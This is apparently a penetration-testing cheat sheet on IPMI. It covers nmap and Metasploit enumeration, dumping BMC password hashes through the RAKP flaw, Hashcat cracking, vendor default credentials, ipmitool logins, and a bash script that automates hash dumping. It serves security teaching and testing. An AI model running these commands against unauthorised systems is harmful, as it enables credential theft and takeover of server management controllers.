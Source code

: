 ```yaml
---

layout: post  
title: "IPMI"  
date: 2024-12-22 
categories: Recon/Active

---
```


### Table of Contents

1. [Introduction to IPMI](#introduction-to-ipmi)  
    1. [Overview of IPMI](#overview-of-ipmi)  
    2. [Key Components](#key-components)  
    3. [Default Configuration](#default-configuration)  
2. [Enumeration Techniques](#enumeration-techniques)  
    1. [Nmap Service Discovery](#nmap-service-discovery)  
    2. [Metasploit IPMI Scanner](#metasploit-ipmi-scanner)  
3. [Advanced Techniques](#advanced-techniques)  
    1. [Dumping IPMI Password Hashes](#dumping-ipmi-password-hashes)  
    2. [Offline Password Cracking](#offline-password-cracking)  
4. [Exploitation Scenarios](#exploitation-scenarios)  
    1. [Default Password Exploitation](#default-password-exploitation)  
    2. [IPMI Configuration Weaknesses](#ipmi-configuration-weaknesses)  
5. [Combining Tools](#combining-tools)  
    1. [Using Nmap with Metasploit](#using-nmap-with-metasploit)  
    2. [Automating with Scripts](#automating-with-scripts)  
6. [Glossary](#glossary)

---

## Introduction to IPMI

### Overview of IPMI

The Intelligent Platform Management Interface (IPMI) is a set of standardized specifications for hardware-based host management systems. It provides administrators with the ability to manage systems remotely, even if the host is powered off or unresponsive.

**Core Features**:

- Remote BIOS settings modifications.
- System power management (reboot, shutdown).
- Hardware monitoring (temperature, voltage, fan status).

---

### Key Components

| **Component**                   | **Description**                                                                 |
|----------------------------------|---------------------------------------------------------------------------------|
| **Baseboard Management Controller (BMC)** | A microcontroller for managing and monitoring system hardware.                   |
| **Intelligent Chassis Management Bus (ICMB)** | Enables communication between chassis systems.                                   |
| **IPMI Memory**                 | Stores logs, repository data, and event logs.                                   |
| **Communication Interfaces**    | Includes local system interfaces, serial/LAN interfaces, and PCI Management Bus.|

---

### Default Configuration

- **Port**: UDP 623.
- **Authentication**: Defaults to weak credentials or factory-set passwords.
- **Common BMC Implementations**: HP iLO, Dell DRAC, Supermicro IPMI.

---

## Enumeration Techniques

### Nmap Service Discovery

Identify IPMI services and gather version details.

**Command**:

```bash
nmap -sU --script ipmi-version -p 623 TARGET_IP
```

**Example Output**:

```
PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version: IPMI-2.0
|   UserAuth: auth_user, non_null_user
|_  PassAuth: password, md5, sha1
```

---

### Metasploit IPMI Scanner

Use Metasploit's auxiliary modules to enumerate IPMI services.

**Command**:

```bash
use auxiliary/scanner/ipmi/ipmi_version
set RHOSTS TARGET_IP
run
```

**Example Output**:

```
[+] TARGET_IP:623 - IPMI - IPMI-2.0 UserAuth(auth_user, non_null_user) PassAuth(password, md5, sha1)
```

---

## Advanced Techniques

### Dumping IPMI Password Hashes

Leverage IPMI's RAKP protocol flaw to retrieve password hashes.

**Metasploit Module**:

```bash
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOSTS TARGET_IP
run
```

**Example Output**:

```
[+] TARGET_IP:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c31
```

---

### Offline Password Cracking

Extracted hashes can be cracked offline using tools like Hashcat.

**Hashcat Command**:

```bash
hashcat -m 7300 ipmi_hashes.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

**Explanation**:

- **`-m 7300`**: Specifies IPMI hash type.
- **`-a 3`**: Uses brute-force mode.
- **`?1`**: Represents a set of uppercase letters and digits.

---

## Exploitation Scenarios

### Default Password Exploitation

Many BMCs use weak or factory-set default passwords. Test the following common credentials:

| **BMC Type**        | **Default Username** | **Default Password**      |
|----------------------|----------------------|---------------------------|
| **Dell iDRAC**       | `root`              | `calvin`                  |
| **HP iLO**           | `Administrator`     | Randomized (8 chars)      |
| **Supermicro IPMI**  | `ADMIN`             | `ADMIN`                   |

**Command**:

```bash
ipmitool -H TARGET_IP -U ADMIN -P ADMIN -I lanplus power status
```

---

### IPMI Configuration Weaknesses

Exploit weak configurations, such as no network segmentation or lack of encryption.

**Example**:

1. Retrieve IPMI system logs:

    ```bash
    ipmitool -H TARGET_IP -U ADMIN -P ADMIN -I lanplus sel list
    ```

2. Use the obtained logs for further enumeration.

---

## Combining Tools

### Using Nmap with Metasploit

1. **Discovery with Nmap**:

    ```bash
    nmap -sU --script ipmi-version -p 623 TARGET_IP
    ```

2. **Exploit with Metasploit**:

    ```bash
    use auxiliary/scanner/ipmi/ipmi_dumphashes
    set RHOSTS TARGET_IP
    run
    ```

---

### Automating with Scripts

Automate IPMI enumeration and exploitation using bash.

**Example Script**:

```bash
#!/bin/bash
nmap -sU --script ipmi-version -p 623 $1
msfconsole -x "use auxiliary/scanner/ipmi/ipmi_dumphashes; set RHOSTS $1; run"
```

---

## Glossary

| **Term**            | **Definition**                                                |
|----------------------|--------------------------------------------------------------|
| **IPMI**            | Intelligent Platform Management Interface for remote server management. |
| **BMC**             | Baseboard Management Controller, the hardware implementing IPMI. |
| **RAKP**            | Remote Authenticated Key-Exchange Protocol, used in IPMI authentication. |
| **LANplus**         | A secure IPMI communication protocol.                         |
| **SEL**             | System Event Log, stores hardware and system events.         |

---
